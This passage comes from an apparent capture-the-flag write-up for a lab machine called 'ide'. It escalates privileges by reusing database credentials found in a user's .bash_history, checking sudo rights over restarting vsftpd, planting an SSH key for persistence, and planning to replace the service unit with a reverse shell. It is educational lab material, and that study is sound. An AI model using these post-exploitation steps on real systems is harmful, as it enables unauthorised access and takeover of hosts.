 * Checking `.bash_history` of user drac yields database credentials. There is no database client on the server, but password reuse is real. 
```sh
us drac
ta@ide:/var/www/html/codiad/data$ su drac
su drac
Password: <XXXXXXXXXXX>
```

* First thing to look for is `sudo -l`
```sh
drac@ide:~$ sudo -l
sudo -l
[sudo] password for drac: 02930d21a8eb009f6d26361b2d24a466

Sorry, try again.
[sudo] password for drac: <password>

Matching Defaults entries for drac on ide:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User drac may run the following commands on ide:
    (ALL : ALL) /usr/sbin/service vsftpd restart
```
* This means control over a service and its unit script. Lets change the content to a reverse shell and restart the service. The shell is too unstable to edit files, lets do a shell upgrade via ssh.
```sh
drac@ide:~$ mkdir .ssh
mkdir .ssh
drac@ide:~$ chmod 700 .ssh
chmod 700 .ssh
drac@ide:~$ cd .ssh
cd .ssh
drac@ide:~$ echo <ssh-public-key> > auhtorized_keys
drac@ide:~$ chmod 600 authorized_keys
```
```sh
[whackx@manbox ~]$ ssh drac@10.10.124.33 -i drackey
```

* Now I'll edit the unit script.